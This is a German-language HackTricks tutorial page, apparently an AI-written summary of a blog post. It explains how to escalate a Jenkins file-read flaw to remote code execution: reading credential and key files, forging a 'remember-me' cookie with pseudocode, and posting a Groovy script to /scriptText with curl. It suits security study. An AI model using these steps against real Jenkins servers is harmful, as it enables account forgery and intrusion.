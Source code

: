# Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

In diesem Blogbeitrag ist es möglich, einen großartigen Weg zu finden, um eine Local File Inclusion-Schwachstelle in Jenkins in RCE zu verwandeln: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Dies ist eine von KI erstellte Zusammenfassung des Teils des Beitrags, in dem das Erstellen eines beliebigen Cookies missbraucht wird, um RCE zu erhalten, indem ein lokales Datei-Lesen ausgenutzt wird, bis ich Zeit habe, eine eigene Zusammenfassung zu erstellen:

### Angriffsvoraussetzungen

* **Funktionsanforderung:** "Remember me" muss aktiviert sein (Standardeinstellung).
* **Zugriffslevel:** Angreifer benötigt Gesamt-/Lese-Berechtigungen.
* **Geheimer Zugriff:** Fähigkeit, sowohl binäre als auch textuelle Inhalte aus wichtigen Dateien zu lesen.

### Detaillierter Ausbeutungsprozess

#### Schritt 1: Datensammlung

**Benutzerinformationsabruf**

* Greife auf die Benutzerkonfiguration und Geheimnisse aus `$JENKINS_HOME/users/*.xml` für jeden Benutzer zu, um Folgendes zu sammeln:
* **Benutzername**
* **Benutzer-Seed**
* **Zeitstempel**
* **Passwort-Hash**

**Geheimschlüssel-Extraktion**

* Extrahiere kryptografische Schlüssel, die zum Signieren des Cookies verwendet werden:
* **Geheimschlüssel:** `$JENKINS_HOME/secret.key`
* **Master-Schlüssel:** `$JENKINS_HOME/secrets/master.key`
* **MAC-Schlüsseldatei:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Schritt 2: Cookie-Fälschung

**Token-Vorbereitung**

*   **Berechne die Token-Ablaufzeit:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Fügt eine Stunde zur aktuellen Zeit hinzu
```
{% endcode %}
*   **Verknüpfe Daten für das Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC-Schlüsselentschlüsselung**

*   **Entschlüssele die MAC-Schlüsseldatei:**

```javascript
key = toAes128Key(masterKey)  // Konvertiere den Master-Schlüssel in das AES128-Schlüssel-Format
decrypted = AES.decrypt(macFile, key)  // Entschlüssele die .mac-Datei
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signaturberechnung**

*   **Berechne HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Berechne HMAC mit dem Token und dem MAC-Schlüssel
tokenSignature = bytesToHexString(mac)  // Konvertiere das MAC in einen hexadezimalen String
```

**Cookie-Codierung**

*   **Generiere das endgültige Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64-codiert die Cookie-Daten
```
{% endcode %}

#### Schritt 3: Codeausführung

**Sitzungsauthentifizierung**

* **Abrufen von CSRF- und Sitzungstoken:**
* Mache eine Anfrage an `/crumbIssuer/api/json`, um `Jenkins-Crumb` zu erhalten.
* Erfasse `JSESSIONID` aus der Antwort, die zusammen mit dem "remember-me"-Cookie verwendet wird.

**Befehlsausführungsanfrage**

*   **Sende eine POST-Anfrage mit Groovy-Skript:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Das Groovy-Skript kann verwendet werden, um systemweite Befehle oder andere Operationen innerhalb der Jenkins-Umgebung auszuführen.

Das bereitgestellte Beispiel für den curl-Befehl zeigt, wie man eine Anfrage an Jenkins mit den erforderlichen Headern und Cookies sendet, um beliebigen Code sicher auszuführen.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
